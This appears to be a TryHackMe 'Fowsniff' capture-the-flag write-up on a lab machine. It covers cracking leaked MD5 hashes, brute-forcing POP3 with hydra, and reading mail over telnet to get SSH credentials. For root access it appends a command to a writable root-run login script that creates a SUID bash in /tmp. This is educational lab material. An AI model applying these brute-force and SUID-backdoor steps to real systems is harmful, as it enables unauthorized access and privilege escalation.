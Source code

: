 ```yaml
---
title: "TryHackMe - Fowsniff CTF"
author: Nasrallah
description: ""
date: 2022-10-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, pop3, breach, crack, hydra, bruteforce]
img_path: /assets/img/tryhackme/fowsniff
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Fowsniff CTF](https://tryhackme.com/room/ctf) from [TryHackMe](https://tryhackme.com). Fowsniff suffered from a data breach where username, emails and passwords got leaked, we brute force a mail server using the leaked data and find some credentials. After logging in to the mail server we find an email that gives us ssh credentials granting us a foothold to the machine. After that we find a shell script that's being run every time a user connects to the machine, we exploit that to get root access. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.243.80                                             
Host is up (0.11s latency).                                                   
Not shown: 996 closed tcp ports (reset) 
PORT    STATE SERVICE VERSION                                                                                                                                
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                                                                               
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)                                                                                               
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)          
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))                       
| http-robots.txt: 1 disallowed entry                                         
|_/                                                                           
|_http-title: Fowsniff Corp - Delivering Solutions                         
|_http-server-header: Apache/2.4.18 (Ubuntu)                               
110/tcp open  pop3    Dovecot pop3d                                           
|_pop3-capabilities: CAPA USER PIPELINING SASL(PLAIN) TOP RESP-CODES AUTH-RESP-CODE UIDL
143/tcp open  imap    Dovecot imapd                                           
|_imap-capabilities: ID IDLE post-login have SASL-IR listed AUTH=PLAINA0001 LITERAL+ more OK ENABLE Pre-login IMAP4rev1 LOGIN-REFERRALS capabilities
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 4 ports open on an Ubuntu machine, port 22 running OpenSSH, port 80 running an Apache web server, port 110 running Docecot pop3 and port 143 running dovecot imap.

### Web

Let's navigate to the web page.

![](1.png)

The website belongs to **FOWSNIFF CORP**. We can see that they have published some important news.

![](2.png)

There is a data breach of there internal server, and the hackers used the corporation's twitter account to share sensitive information.

![](3.png)

Let's take a look at the twitter account.

![](4.png)

We found a link to a pastebin.

![](5.png)

Let's go to the gihub link.

![](6.png)

We found some usernames, emails and passwords of employees of Fowsniff corp.

The password looks like md5 hashes, so we can crack them easily using [crackstation.net](https://crackstation.net/)

![](7.png)


## **Foothold**

Let's create a list of usernames and passwords we cracked.

![](8.png)

Using the lists, let's brute force the pop3 service using `hydra`.

```hydra
hydra -L usernames.lst -P passwords.lst 10.10.243.80 pop3
```

![](9.png)

We got the username and password.

Let's connect the pop3 server using the command `telnet {Target_IP} 110`, submit the username with `USER {username}` and password with `PASS {password}`.

We can list the available messages with `LIST` and show a specific message with `RETR n`.

![](10.png)

In one of the emails, we found ssh credentials, let's connect to the machine using them.

![](11.png)

## **Privilege Escalation**

I uploaded a copy of linpeas to the target, run it and got the following.

![](12.png)

There is a file writeable by our group called `cube.sh`, let's take a look at it.

```terminal
baksteen@fowsniff:~$ cd /opt/cube/
baksteen@fowsniff:/opt/cube$ cat cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

```

This looks like the banner we got when we logged in via ssh, seems like the file is being executed every time someone logs in to the machine via ssh.

I added the following command to the script that would make a copy of bash in /tmp and give it the suid bit.

```bash
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' >> cube.sh
```

Now we need to exit and reconnect to run our command.

![](13.png)

The script was run by root so we easily got a root shell.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
